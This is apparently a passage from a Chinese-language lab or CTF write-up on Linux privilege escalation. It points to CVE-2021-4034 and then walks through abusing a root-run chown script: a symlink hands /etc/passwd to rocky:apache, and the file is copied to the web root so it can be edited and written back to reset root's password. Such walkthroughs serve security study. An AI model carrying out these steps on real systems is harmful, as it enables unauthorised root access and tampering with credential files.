 ```
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/cockpit-session
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/selinux_child
/usr/libexec/sssd/proxy_child
```

**polkit-agent-helper-1** cve编号：**CVE-2021-4034**

脚本是  https://github.com/berdav/CVE-2021-4034

这里我们先不用这个CVE，按常规思路，上脚本信息搜集后，发现以root身份执行了 /usr/share/scripts/chown.sh

```
bash-4.4$ cd /usr/share/scripts
cd /usr/share/scripts
bash-4.4$ ls -al
ls -al
total 8
drwxr-xr-x.  2 root root   22 May 29  2021 .
drwxr-xr-x. 98 root root 4096 May 29  2021 ..
-rw-r--r--.  1 root root   45 May 29  2021 chown.sh
```

我们是无法修改chown.sh，如果可以以Apache身份的权限修改chown.sh，我们直接修改调用 /bin/bash 即可，可惜我们只能读

```
bash-4.4$ cat chown.sh
cat chown.sh
chown rocky:apache /home/rocky/public_html/*
```

这里的意思是把/home/rocky/public_html/  底下所有的文件权限切换到 rocky:apache

假如我们可以把 /etc/passwd 软连接到 /home/rocky/public_html/ 目录下，/etc/passwd 就是用户 rocky 用户组 apache 权限了，我们便可以修改root密码或者把密码置空

```
bash-4.4$ ln -s /etc/passwd /home/rocky/public_html/passwd
ln -s /etc/passwd /home/rocky/public_html/passwd
```

软连接后的/etc/passwd权限

```
-rwxrwxr-x.  1 rocky apache   1548 Dec  2 05:47 passwd
```

不方便修改passwd，于是把它传到web目录复制后本地修改，再来覆盖 /etc/passwd

```
bash-4.4$ cp /etc/passwd /var/www/html/blog
```
